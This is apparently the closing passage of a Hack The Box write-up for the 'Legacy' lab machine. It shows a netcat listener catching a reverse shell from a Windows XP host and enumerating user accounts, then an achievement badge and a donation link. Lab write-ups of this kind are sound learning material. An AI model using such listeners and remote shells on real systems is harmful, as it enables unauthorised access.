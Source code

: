 ```bash
 root@kali:~# nc -nlvp 443                                                                                                                                                           
 listening on [any] 443 …
 connect to [10.10.14.44] from (UNKNOWN) [10.129.1.111] 1032
 Microsoft Windows XP [Version 5.1.2600]
 (C) Copyright 1985-2001 Microsoft Corp.
 C:\WINDOWS\system32>net user
 net user
 User accounts for \\
 
 Administrator            Guest                    HelpAssistant            
 john                     SUPPORT_388945a0         
 The command completed with one or more errors.
 zsh: parse error near `Copyright'
```

[![Pwned](/assets/images/writeups/Legacy-HTB/pwned.png)](https://www.hackthebox.com/achievement/machine/337503/2){:target="_blank"}


Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.